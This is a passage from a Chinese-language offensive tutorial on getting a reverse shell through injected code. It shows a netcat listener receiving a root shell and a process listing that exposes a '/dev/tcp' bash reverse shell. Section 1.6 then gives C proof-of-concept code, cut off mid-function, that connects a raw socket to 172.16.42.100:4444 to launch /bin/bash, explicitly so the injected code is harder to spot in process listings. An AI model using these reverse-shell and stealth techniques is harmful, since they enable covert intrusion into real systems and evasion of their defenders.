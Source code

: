 **收到了shell：**

```bash
[root@master ~]# nc -lvvp 4444
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.16.42.151.
Ncat: Connection from 172.16.42.151:39404.
root@vuln:~#
```



### 1.6 使用socket套接字编写poc

这种方式的好处是可以隐藏我们的行为，上述方式都可以通过查看进程的方式发现恶意注入的代码

```bash
➜ ps -ef | grep bash
root       1447   1406  0 12:00 pts/1    00:00:00 sh -c bash -c "bash -i >& /dev/tcp/172.16.42.100/4444 0>&1"
root       1448   1447  0 12:00 pts/1    00:00:00 bash -c bash -i >& /dev/tcp/172.16.42.100/4444 0>&1
root       1449   1448  0 12:00 pts/1    00:00:00 bash -i
root       1487    978  0 12:00 pts/0    00:00:00 grep --color=auto --exclude-dir=.bzr --exclude-dir=CVS --exclude-dir=.git --exclude-dir=.hg --exclude-dir=.svn --exclude-dir=.idea --exclude-dir=.tox bash
```

我们可以发现我们已经暴露了我们反弹的shell地址。

解决方式就是自己写一个socket连接，而不是调用system函数

poc.c

```c
#include <stdio.h>
#include <dlfcn.h>
#include <stdlib.h>
#include <pthread.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netdb.h>
#include <arpa/inet.h>


static void * hello()
{

    struct sockaddr_in server;
    int sock;
    char shell[]="/bin/bash";
    if((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
        return NULL;
    }

    server.sin_family = AF_INET;
    server.sin_port = htons(4444);
    server.sin_addr.s_addr = inet_addr("172.16.42.100");
    if(connect(sock, (struct sockaddr *)&server, sizeof(struct sockaddr)) == -1) {
```
